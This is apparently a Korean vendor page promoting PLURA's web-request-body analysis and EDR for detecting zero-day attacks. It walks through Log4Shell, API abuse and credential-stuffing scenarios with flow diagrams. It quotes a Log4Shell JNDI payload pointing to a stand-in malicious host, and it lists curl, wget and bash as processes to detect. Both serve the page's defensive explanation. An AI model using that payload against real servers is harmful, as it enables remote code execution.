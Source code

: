 ## 제로 데이(Zero-Day) 공격 탐지 및 대응 – 사례 및 시나리오

## 🔍 제로 데이 공격이란?  
**제로 데이 공격**(Zero-Day Attack)은 보안 취약점이 발견되었지만, 아직 공식적인 패치나 대응 방법이 제공되지 않은 상태에서 공격자가 이를 악용하는 사이버 공격입니다.  
기존 보안 시스템(SIEM, WAF, NDR 등)은 **이미 알려진 공격 패턴**(시그니처, 룰 기반 탐지)에 의존하기 때문에 제로 데이 공격을 탐지하기 어렵습니다.  

PLURA의 **웹 요청 본문 로그 분석 + EDR**을 활용하면, 제로 데이 공격을 보다 효과적으로 탐지하고 대응할 수 있습니다.  

---

## **제로 데이 공격 사례 및 탐지 시나리오**  

### **📌 사례 1: Log4j(Log4Shell) 취약점 공격 탐지**  

#### **공격 개요**  
2021년 12월, **Log4j**(Log4Shell) 취약점(CVE-2021-44228)이 발견되었습니다.  
- 공격자는 웹 애플리케이션의 **입력 필드**(검색창, 로그인 폼 등)에 **특정 문자열**(JNDI 요청 포함)을 삽입하여 원격 코드 실행(RCE, Remote Code Execution)을 수행할 수 있었습니다.  
- WAF 및 기존 보안 솔루션이 이 패턴을 알기 전까지는, 탐지가 어려운 전형적인 제로 데이 공격이었습니다.  

#### **Log4j 공격 흐름**  
```mermaid
graph TD
    A[공격자] -->|JNDI Payload 포함 요청| B[취약한 웹 애플리케이션]
    B -->|로그 저장| C[Log4j 취약점 존재]
    C -->|JNDI Lookup 수행| D[외부 악성 서버 접속]
    D -->|악성 코드 전송| E[웹 서버에서 RCE 발생]
    E -->|백도어 설치| F[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|JNDI 패턴 탐지| Y[공격 차단]
    E -->|프로세스 모니터링| Z[EDR 탐지 및 실행 차단]
```

#### **PLURA 웹 요청 본문 분석 + EDR 탐지 방법**  
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
- PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 의심스러운 패턴을 탐지 가능.  
- 검색창, 유저 입력값, 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  

✅ **2) EDR 연계를 통한 공격 실행 탐지 및 차단**  
- 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우, PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트**(Fork, Execve) 탐지.  
- `curl`, `wget`, `bash` 등의 의심스러운 프로세스 실행 감지 후 자동 차단 가능.  

---

### **📌 사례 2: API 취약점 악용 (Zero-Day API Attack)**  

#### **API 공격 흐름**  
```mermaid
graph TD
    A[공격자] -->|API Brute Force 공격| B[취약한 API 서버]
    B -->|다른 사용자 계정으로 정보 요청| C[권한 검증 미흡]
    C -->|계정 데이터 유출| D[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|비정상적인 API 호출 패턴 탐지| Y[공격 차단]
    B -->|API 호출 횟수 분석| Z[비정상적 호출 탐지 및 차단]
```

✅ **1) API 요청 본문을 분석하여 비정상적인 요청 패턴 탐지**  
✅ **2) 웹 애플리케이션 로그와 사용자 행동 데이터를 상관 분석**  
✅ **3) EDR을 활용한 추가 보안 탐지**  

---

### **📌 사례 3: 크리덴셜 스터핑 공격 탐지**  

#### Credential Stuffing 공격 흐름
```mermaid
graph TD
    A[공격자] -->|유출된 계정 정보로 로그인 시도| B[로그인 서버]
    B -->|반복적인 로그인 실패| C[Brute Force 공격 감지 안됨]
    C -->|일부 계정 로그인 성공| D[계정 탈취]
    D -->|비밀번호 변경, 데이터 탈취| E[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|반복된 로그인 시도 탐지| Y[공격 차단]
    D -->|계정 사용 행위 분석| Z[비정상적 활동 감지 및 추가 인증 요청]
```

✅ **1) 로그인 요청 패턴을 실시간 분석하여 크리덴셜 스터핑 공격 탐지**  
✅ **2) AI 기반 이상 탐지 적용**  
✅ **3) 사용자 행동 분석 및 MFA 강제 적용 가능**  

---

### **결론: PLURA 웹 요청 본문 분석 + EDR을 통한 제로 데이 탐지 및 대응**  

✅ **기존 보안 시스템(WAF, SIEM, NDR, TI)은 알려진 공격 패턴만 탐지 가능하므로, 제로 데이 공격을 효과적으로 탐지하지 못함.**  
✅ **PLURA의 웹 요청 본문 분석은 새로운 공격 패턴을 실시간으로 분석하여, 알려지지 않은 제로 데이 공격 탐지 가능.**  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단.**  
✅ **공격 흐름을 상관 분석하고 이상 행위를 탐지하여, Zero-Day 공격이 실시간으로 탐지 및 차단될 수 있도록 지원.**  

🔹 **PLURA-XDR은 웹 요청 본문 분석과 EDR을 결합하여 기존 보안 솔루션이 탐지하지 못하는 제로 데이 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  
```

